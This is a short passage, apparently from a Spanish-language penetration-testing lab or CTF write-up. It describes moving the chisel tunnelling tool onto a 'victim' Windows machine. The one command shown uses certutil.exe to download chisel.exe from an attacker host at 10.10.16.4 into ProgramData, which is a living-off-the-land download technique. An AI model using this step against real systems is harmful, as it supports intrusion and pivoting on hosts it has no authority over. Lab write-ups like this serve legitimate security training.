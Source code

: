 ![paste](./images/30.jpeg)

![paste](./images/31.jpeg)

Para pasarlo a la maquina victima usaremos un servidor de Python

En la maquina Windows (de preferencia descárgalo en la carpeta de ProgramData)

```PowerShell
certutil.exe -f -urlcache -split http://10.10.16.4/chisel.exe chisel.exe
```

Con eso tendremos chisel en nuestra maquina victima 

![paste](./images/32.jpeg)
